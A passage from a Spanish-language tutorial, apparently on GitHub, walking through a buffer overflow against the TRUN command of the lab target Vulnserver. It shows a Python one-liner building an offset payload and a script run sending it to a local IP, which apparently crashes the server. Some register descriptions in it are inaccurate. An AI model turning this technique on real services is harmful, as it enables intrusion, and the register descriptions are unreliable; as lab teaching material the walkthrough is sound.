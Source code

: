 
Observa como el **EIP y el EBP** y como se ve un poco vacío a diferencia de las otras pruebas.

<br>

<h3 id="Sexto">Sexto Paso: Identificando Ubicación de Representación de Caracteres</h3>

Recordemos que estos registros son los que nos importan, pues son los registros de CPU hacia los cuales se puede dirigir el **Buffer Overflow** y ejecutar las instrucciones a bajo nivel que deseamos:

* *EIP*: indica la siguiente dirección de memoria que el ordenador debería ejecutar.
* *EAX*: almacena temporalmente cualquier dirección de retorno.
* *EBX*: almacena datos y direcciones de memoria.
* *ESI*: contiene la dirección de memoria de los datos de entrada.
* *ESP*: se usa para referenciar el inicio de un hilo.
* *EBP*: indica la dirección de memoria del final de un hilo.

Más específicos, nos interesan estos dos: **EIP, EBP y ESP**.

Podemos confirmar que, después del **offset**, se reescribe el **EIP** y luego se escriben más caracteres.

Con **Python**, podemos generar varios caracteres para cumplir con el **offset**, **sobreescribir el EIP** y registrar n cantidad de caracteres después:
```bash
python3 -c 'print("A"*2003 + "B"*4 + "C"*100)'
```

Y vamos a mandar este payload usando mi script:
```bash
python3 spiker.py --ip-addr 192.168.1.100 --port 9999 --payload "AAAAAAAAAAAAAAA....AAAAAAAAABBBBCCCCC..."

[+] Conectando a 192.168.1.100:9999...


[+] Recibiendo Banner: 
------
Welcome to Vulnerable Server! Enter HELP for help.

------

[*] Payload Enviado: b'TRUN /.:/AAAAAAAAAAAAAAAAAAAAA.....AAAAAAAABBBBCCCCC...CCCC\r\n'


[!] No hay respuesta, el servidor podría haber crasheado.

[+] Cerrando conexión.
```

Observa el **Immunity Debugger**:

<p align="center">